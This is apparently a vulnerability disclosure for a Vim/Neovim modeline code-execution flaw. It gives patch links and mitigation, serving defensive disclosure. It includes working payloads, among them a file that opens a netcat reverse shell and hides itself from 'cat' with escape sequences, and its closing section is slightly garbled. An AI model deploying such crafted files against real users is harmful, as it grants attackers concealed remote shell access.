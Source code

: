 
Vim/Neovim Arbitrary Code Execution via Modelines
=================================================

```
Product: Vim < 8.1.1365, Neovim < 0.3.6
Type:    Arbitrary Code Execution
```

Summary
-------

Vim before 8.1.1365 and Neovim before 0.3.6 are vulnerable to arbitrary code
execution via modelines by opening a specially crafted text file.


Proof of concept
----------------

- Create [`poc.txt`](https://github.com/numirias/security/blob/master/data/2019-06-04_ace-vim-neovim/poc.txt):

      :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

- Ensure that the modeline option has not been disabled (`:set modeline`).

- Open the file in Vim:

      $ vim poc.txt

- The system will execute `uname -a`.


Proof of concept 2 (reverse shell)
----------------------------------

This PoC outlines a real-life attack approach in which a reverse shell
is launched once the user opens the file. To conceal the attack, the file will
be immediately rewritten when opened. Also, the PoC uses terminal escape
sequences to hide the modeline when the content is printed with `cat`.
(`cat -v` reveals the actual content.)
(`cat -e` reveals the actual content.)

[`shell.txt`](https://github.com/numirias/security/blob/master/data/2019-06-04_ace-vim-neovim/shell.txt):

    \x1b[?7l\x1bSNothing here.\x1b:silent! w | call system(\'nohup nc 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[KNothing here."\x16\x1b[D \n

Demo (victim left, attacker right):

![Reverse shell demo](https://i.imgur.com/8w4tteX.gif)

Details
-------

The modeline feature allows to specify custom editor options near the start or
end of a file. This feature is enabled by default and applied to all file
types, including plain `.txt`. (Note that some OSes ship with a custom vimrc
that explicitly sets `nomodelines`, e.g. Debian. So if you use their custom
default vimrc instead of Vim's native defaults, you're safe.)

Patches
-------

- [Vim patch 8.1.1365](https://github.com/vim/vim/commit/5357552)
- [Neovim patch](https://github.com/neovim/neovim/pull/10082) (released in [v0.3.6](https://github.com/neovim/neovim/releases/tag/v0.3.6))


Check if you have modelines enabled by opening vim and entering

```:set modeline?```

If vim returns ```nomodeline```, you are not vulnerable.  If you are vulnerable
or want to ensure your security with this issue, add these lines to your vimrc:

```
set modelines=0
set nomodeline

Found vimrc:

```:verbose set modeline?```

[Links](https://www.youtube.com/watch?v=o-_oGSxUY3Y)
